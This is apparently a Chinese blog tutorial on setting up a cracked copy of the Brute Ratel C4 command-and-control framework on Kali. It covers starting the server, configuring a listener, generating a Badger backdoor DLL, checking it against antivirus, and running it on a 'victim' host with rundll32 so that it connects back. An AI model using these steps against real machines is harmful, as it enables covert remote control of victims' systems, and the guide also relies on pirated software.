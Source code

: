 ```yaml
---
date: 2024-08-17 12:00:00
---
```


# 远控BRC4安装与简单上线

Brute Ratel C4是一款类似于Cobalt Strike的商业红队武器框架，每年License收费为3000美元，客户需要提供企业电子邮件地址并在颁发许可证之前进行验证，首个版本Brute Ratel C4 v0.2于2021年2月9日发布，它是由Mandiant和CrowdStrike的前红队队员Chetan Nayak创建的，该工具独特之处在于它专门设计防止端点检测和响应(EDR)和防病毒(AV)软件的检测，是一款新型的红队商业对抗性攻击模拟武器。

与Cobalt Strike的Beacon后门类似，Brute Ratel C4允许红队在远程终端主机上部署Badger后门程序，Badger连接回攻击者的命令和控制服务器，接收服务器端的命令执行相关的恶意行为。

[BRC4官网](https://bruteratel.com/)

![CleanShot 2024-08-17 at 00.22.18@2x.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/picCleanShot%202024-08-17%20at%2000.22.18@2x.png)


在kali中进行安装。首先对压缩包进行解压。

```bash
kali :: ~/Desktop/BRC4 » unzip BRC4.zip
```

得到如下文件：

![CleanShot 2024-08-17 at 00.29.54@2x.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/picCleanShot%202024-08-17%20at%2000.29.54@2x.png)

给予`brute-ratel-linx64_crack` 和 `lib64/commander` 执行权限

```bash
kali :: ~/Desktop/BRC4 » chmod +x x brute-ratel-linx64_crack                                   1 ↵
kali :: ~/Desktop/BRC4 » chmod +x lib64/commander                                            130 ↵
```

启动服务端，其中用户名为`hack`，密码为`p@ssw0d`，端口为`7788`，可以自行调整。

```bash
kali :: ~/Desktop/BRC4 » ../brute-ratel-linx64_crack -ratel -a hack -p p@ssw0d -h 127.0.0.1:7788 -sc
 cert.pem -sk key.pem
```

![CleanShot 2024-08-17 at 00.32.05@2x.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/picCleanShot%202024-08-17%20at%2000.32.05@2x.png)

接下来打开图形界面，首先赋予执行权限

```bash
kali :: ~/Desktop/BRC4 » chmod +x Rungui.sh
```

启动图形界面

```bash
kali :: ~/Desktop/BRC4 » ./Rungui.sh                                                    130 ↵
```

启动了图形界面后，接下来输入前面设定好的用户名和密码，点击猴子就可以成功登录。

![image-20240817003911885](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817003911885.png)

![image-20240817004013352](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817004013352.png)

进入客户端之后，点击`C4 Profiler`，然后点击`Add Http Listener`，这里和CS的步骤一样，需要先创建并配置一个监听器。

![image-20240817004225691](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817004225691.png)

接下来配置监听器，配置的内容为：
1. `Listener name`：监听器的名称，自定义。
2. `Listener bind host`：设置监听地址，当前选择主机的 IP即可。
3. `Rotational hosts`：重定向地址，当前点击右侧same按钮选择和监听器一样的地址。
4. `Port`：端口自定义
5. `Useragent`：默认即可。UA头
6. `URI(S)`：瞎写就可以，随便。
7. `OS`：默认
8. `SSL`：选择`No`，如果选择`Yes`，可能会导致无法上线。
9. `Sleep mask`：默认
10. `Sleep`,`Jitter`：类似CS的延时时间，建议调低。
11. `Create random set of authentication keys`,`Die if C2 is inaccessible?(Initialization only)`：勾选，马子如果不上线，不会一直请求。

![image-20240817004958076](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817004958076.png)

![image-20240817005241617](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817005241617.png)

配置完成后，点击`Save`保存，即可创建一个监听器。

右键点击该监听器，选择`Stageless`，选择`x64 Arch (Default)`，选择`dll`，这里是根据前面创建监听器时设置的架构来选择的。即可生成对应架构的马。

![image-20240817005459015](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817005459015.png)

![image-20240817005623775](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/image-20240817005623775.png)

对生成的DLL随手查杀一下

![image.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/20240817010536.png)

将这个DLL放到受害者的主机上，为了方便测试，直接在cmd终端执行命令：

```powershell
rundll32 badger_x64.dll,main
```

可以看到，成功上线了。

![image.png](https://takuya-1305710862.cos.ap-shanghai.myqcloud.com/A1ways0nline/pic/20240817011006.png)

更多后续使用方法再玩玩后分享。